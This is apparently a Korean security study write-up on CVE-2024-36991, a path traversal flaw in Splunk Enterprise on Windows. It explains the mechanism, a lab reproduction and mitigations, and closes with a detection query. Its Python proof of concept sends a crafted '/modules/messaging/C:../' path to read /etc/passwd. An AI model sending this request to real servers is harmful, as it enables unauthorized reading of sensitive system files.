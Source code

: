 ```yaml
---
layout: default
title: cve-2024-36991
category: "Splunk"
nav_order: 4
parent: cve
---
```


# cve-2024-36991
{: .no_toc }

Splunk Enterprise Path Traversal 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Splunk][Splunk]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[PoC][PoC]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Splunk의 /modules/messaging/ 엔드포인트에서 발생하는 경로 탐색(Path Traversal) 취약점

## 1.2 취약 대상
- Windows 환경에서 동작하는 Splunk Enterprise에서 다음 버전이 영향
- Splunk Enterprise 9.2.0 ~ 9.2.1
- Splunk Enterprise 9.2.2
- Splunk Enterprise 9.1.0 ~ 9.1.4
- Splunk Enterprise 9.1.5
- Splunk Enterprise 9.0.0 ~ 9.0.9
- Splunk Enterprise 9.0.10

## 1.3 공격 원리
- 취약점은 /modules/messaging/ 엔드포인트에 조작된 경로를 포함한 url을 요청
- Splunk Web은 해당 경로를 os.path.join[주1] 함수를 사용하여 결합 
- Winodws 환경에서는 중복된 드라이브 문자가 제거되는 특성을 이용
- 공격자는 이 취약점을 악용하여 민감한 파일에 접근하여 정보를 탈취
![](../../assets/images/cve-2024-36991/attack.png)

---

## 1.4 Splunk의 취약한 설정 분석
- CVE-2024-36991의 취약점이 존재하는 환경은 다음과 같은 조건을 만족
- Splunk Web 활성화, Windows 환경에서 동작, modules/messaging 엔드포인트가 open
- 이러한 조건을 갖춘 환경에서는, 공격자가 조작된 URL을 통해 경로 탐색(Path Traversal) 공격 가능 

<br>

- 이 취약점은 Splunk Web이 활성화된 인스턴스에서 발생
- Splunk Web의 설정 파일(web.conf)에서 startwebserver 옵션을 1로 설정하여 취약한 환경 구현
![](../../assets/images/cve-2024-36991/conf.png)

<br> 

- Windows환경에서 os.path.join() 함수가 어떻게 작동하는지 확인
- Splunk의 /modules/messaging/ 엔드포인트는 파일을 불러올 때 사용자가 입력한 경로를 합쳐 처리
- 정상적인 경우, os.path.join()은 경로를 연결 (C:\Program Files\Splunk\data\logs\test.log)
 ![](../../assets/images/cve-2024-36991/path_1.png)

 <br>

- 비정상적인 경우, 공격자가 새로운 “C:\\” 경로를 추가
- “C:\\”(드라이브 문자가 다시 등장하는 경우) 이후의 값을 기준으로 새로운 경로를 생성
- 결과적으로 기본 경로가 무시되고 공격자가 원하는 파일로 접근(C:\\SKT\\Infra보안\\skt_nsc.excel)
![](../../assets/images/cve-2024-36991/path_2.png)

---

## 1.5 환경 구성
- Victim: Windows10 (IP: 192.168.253.123)
- Attacker: Windows10 (IP: 192.168.253.77)

<br>

- 취약한 Splunk 서버 환경 구축 (Splunk Enterprise 9.1.2)
- 취약점이 존재하는 Splunk Enterprise 9.1.2 서버 구축
![](../../assets/images/cve-2024-36991/splunk.png)

---

## 1.6 공격 재현
- Python을 이용한 조작된 GET 요청을 통한 Splunk 서버 공격
- 조작된 경로 생성 (“/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd”)
- 조작된 GET 요청을 서버로 전송하고, 응답에서 /etc/passwd 파일 노출 확인

```py
url = "http://192.168.253.123:8000"
attack_url = "/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd"
def attack_request(url):
    try:
        fullurl = f"{url}{attack_url}" # 조작된 경로를 포함한 URL 생성
        response = requests.get(fullurl, verify=False)
        if response.status_code == 200:
            body = requests.text
            # 응답에서 'admin:' 문자열이 포함되면 출력
            if body is not None and 'admin:' in body:
                print_message('vulnerable', f"Vulnerable: {url}")
                print(body) # 서버에서 응답받은 파일 내용 출력
        else:
            print_message("warning", f"Not Vulnerable: {url}")
            return response.text 
    except requests.RequestException:
        return None
```

<br>

- 실제 /etc/passwd 파일은 아래와 같음
![](../../assets/images/cve-2024-36991/passwd.png)

<br>

- 공격 실행 결과, 서버에서 /etc/passwd 파일의 실제 내용이 성공적으로 출력
![](../../assets/images/cve-2024-36991/cmd.png)

<br>

- Burp Suite를 사용하여 실제 페이로드의 응답을 확인한 결과, /etc/passwd 파일의 내용이 포함
![](../../assets/images/cve-2024-36991/burp.png)

---

## 1.7 대응 방안
- Splunk Enterprise 버전 9.2.1 이상으로 업데이트
- Splunk Web 비활성화
- Splunk /modules/messaging/ 경로 탐색(Path Traversal) 공격 탐지 쿼리

```spl
`splunkd_web` method=GET uri_path="/*/modules/messaging/*..*" 
| stats min(_time) as firstTime max(_time) as lastTime values(method) as method values(uri_path) as uri_path by host 
| `security_content_ctime(firstTime)` 
| `security_content_ctime(lastTime)` 
| `splunk_unauthenticated_path_traversal_modules_messaging_filter`
```

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/cve-2024-36991
[Splunk]: https://advisory.splunk.com/advisories/SVD-2024-0711
[PoC]: https://github.com/bigb0x/CVE-2024-36991
